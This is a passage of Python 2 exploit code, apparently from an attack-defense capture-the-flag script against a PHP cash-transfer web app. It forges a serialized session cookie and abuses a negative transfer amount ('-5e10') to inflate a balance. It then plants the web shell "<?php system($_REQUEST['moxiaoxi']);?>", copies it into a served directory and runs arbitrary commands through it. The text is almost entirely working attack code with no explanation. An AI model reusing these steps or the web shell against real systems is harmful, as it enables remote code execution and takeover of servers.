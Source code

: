 ```bash
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Connection": "close", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8"}
    cookies = {
        "auth": "Tzo4OiJVc2VyRGF0YSI6OTp7czo4OiJ1c2VybmFtZSI7czo4OiJtb3hpYW94aSI7czo0OiJwZXJtIjtzOjE6IjEiO3M6MjoiaWQiO3M6MToiNCI7czo1OiJub25jZSI7czoxMDoiMTc5NjcyMjQ3MSI7czo4OiJwYXNzd29yZCI7czo0MDoiZDdjYmRiZjZjZTNhNmVlZWZiZGI5MjAyODE3MDBiYWFkMDQ4ZDMyYiI7czo5OiJoYXNoX2FsZ28iO3M6NDoic2hhMSI7czo0OiJjYXNoIjtkOjk5OTk5OTY5NTAwO3M6NDoiaW5mbyI7czowOiIiO3M6NjoiYXZhdGFyIjtzOjA6IiI7fQ%3D%3D.sha1.7cf0c61f1ffe89322e866ecbb2219e799528bd95",
        "algo": "sha1"}
    response = session.get("https://{}/data/cash_out/1.php".format(target), params=paramsGet, headers=headers, cookies=cookies)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    return response.content


def attack_one(target,cmd):
    '''
    '''
    salt = ''.join(random.sample(string.ascii_letters + string.digits, 10))
    username = 'moxiaoxi'
    password = 'moxiaoxi'
    register(target, username, password)
    login(target, username, password)
    trans(target, to_user='moxiaoxi2', cash='-5e10')
    data = "<?php system($_REQUEST['moxiaoxi']);?>"
    check_mony(target,data)
    attack_username = username + salt
    # 第一次写
    cash_out(target, username=attack_username)
    #  第二次rce
    rce(target, amount='5000', username=attack_username, cmd=cmd)



def vulnerable_attack(target, target_port, cmd):
    try:
        first_cmd = "cp /var/www/html/data/avatar/1.txt /var/www/html/data/cash_out/1.php"
        attack_one(target, cmd=first_cmd)
        real_cmd = cmd
        res = use_webshell(target, real_cmd).strip()
    except Exception, e:
        debug_print(traceback.format_exc())
        dump_error("attack failed", target, "vulnerable attack")
        res = "error"
    return res


```
